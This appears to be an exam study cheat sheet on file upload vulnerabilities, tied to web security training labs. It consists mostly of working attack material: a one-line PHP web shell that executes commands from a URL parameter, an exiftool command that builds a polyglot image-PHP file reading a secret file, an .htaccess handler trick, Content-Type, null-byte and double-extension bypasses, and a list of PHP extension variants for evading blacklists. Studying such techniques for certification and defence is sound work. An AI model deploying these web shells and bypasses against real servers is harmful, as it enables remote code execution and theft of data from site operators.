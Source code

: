 ___

```bash
<?=`$_GET[0]`?>
```

> File upload vulnerabilities bypass techniques:

1. Upload the file name and include obfuscated path traversal `..%2fexploit.php` and retrieve the content `GET /files/avatars/..%2fexploit.php`.
2. Upload a file named, `exploit.php%00.jpg` with trailing null byte character and get the file execution at `/files/avatars/exploit.php`.
3. Create **polygot** using valid image file, by running the command in bash terminal: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./stickman.png -o polyglot2023.php`. Once polygot is uploaded, view the extracted data by issuing a GET request to the uploaded path `/files/avatars/polyglot.php` , and search the response content for the phrase `START` to obtain the sensitive data.
4. Upload two different files. First upload `.htaccess` with Content-Type: `text/plain`, and the file data value set to `AddType application/x-httpd-php .l33t`. This will allow the upload and execute of second file upload named, `exploit.l33t` with extension `l33t`.
5. MIME type `image/jpeg` or `image/png` is only allowed. Bypass the filter by specifying `Content-Type` to value of `image/jpeg` and then uploading `exploit.php` file.
6. If target allow [Remote File Include](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#remote-file-inclusion) (RFI), upload from remote URL, then host and exploit file with the following GIF magic bytes: `GIF89a; <?php echo file_get_contents('/home/carlos/secret'); ?>`. The file name on exploit server could read `image.php%00.gif`.
7. Double file extension bypass filter `exploit.csv.php`.

# Web shell upload via Content-Type restriction bypass

Content-Type: image/jpeg

# Web shell upload via path traversal

filename="..%2fshell.php"

GET /files/avatars/../shell.php

# Web shell upload via extension blacklist bypass

Defaults php extensions
```
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
# Web shell upload via obfuscated file extension

filename="shell.php%00.jpg"

# Remote code execution via polyglot web shell upload

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" shell.jpg -o shell.php
```

